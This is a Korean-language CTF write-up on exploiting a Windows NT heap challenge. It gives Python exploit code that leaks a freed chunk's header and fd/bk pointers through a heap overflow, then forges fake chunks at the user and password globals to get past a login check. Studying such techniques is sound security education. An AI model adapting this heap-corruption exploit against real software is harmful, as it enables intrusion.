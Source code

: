 이제 시나리오대로 하나씩 살펴보도록 하겠습니다!

# Control RIP

NT heap은 같은 크기의 해제된 chunk를 `ListHints`에서 double linked list로 관리합니다. 해제된 chunk의 data 위치에는 `fd` 와 `bk` 가 저장되고 각각 이전 chunk, 다음 chunk를 가리키며 이후에 같은 크기로 재 할당할 때 `ListHints`를 참조해 먼저 해제된 순서대로 할당합니다.

`A~D`를 할당하고 `B`와 `D`를 해제한 뒤의 상황을 그림으로 간단하게 나타내면 아래와 같습니다. 리눅스의 Heap 관리랑 비슷한 면이 있네요. 

![pwncoolsexy-part5/Untitled%205.png](pwncoolsexy-part5/Untitled%205.png)

`A chunk`에서 heap overflow를 트리거하면 해제된 `B chunk`의 주소와 `header`를 leak할 수 있습니다.

```php
add("A", 0x440, "AAAA")
add("A", 0x100, "AAAA")
add("B", 0x100, "BBBB")
add("C", 0x100, "CCCC")
add("D", 0x100, "DDDD")
delete("B")
delete("D")

# leak B - header, fd, bk, chunk address
view('A')
p.recvuntil("Data:")
p.recv(0x108)
header = u64(p.recv(8))
B_fd = u64(p.recv(8))# B_fd = D chunk address
B_bk = u64(p.recv(8))
p.recv(0x210)
D_fd = u64(p.recv(8))
D_bk = u64(p.recv(8))# D_bk = B chunk address
```

이제 `user`와 `pwd` 위치에 2개의 fake chunk를 만드는데, leak 한 `B chunk` 주소와 `header`를 이용해 `B chunk`와 연결되도록 합니다. 이때 각각의 fake chunk의 header에 기존 user와 password를 포함해야 로그인 체크 함수를 통과할 수 있습니다.  `B chunk`의 `fd`에는 우리가 만든 fake chunk를 가리키도록 overwrite 하면 되겠네요.

```php
user = imagebase + 0x5620
pwd = imagebase + 0x5648

# we make heap 
# B -> fake_chunk(pwd) -> fake_chunk(user) -> D
# overwrite B_fd 
# B -> fake_chunk(pwd)
add("A", 0x100, "A"*0x100 + p64(0) + p64(header) + p64(pwd + 0x10))
# logout
p.recvuntil(">>")
p.sendline("4")

# header
fake_pwd = "phdphd" + "\x00"*2 + p64(header)
# fd, bk
fake_pwd += p64(user + 0x10) + p64(D_bk)[:-2]

# header
fake_user = "ddaa" + "\x00"*4 + p64(header)
# fd, bk
fake_user += p64(D_fd) + p64(pwd + 0x10)[:-2]

login(fake_user, fake_pwd)
```
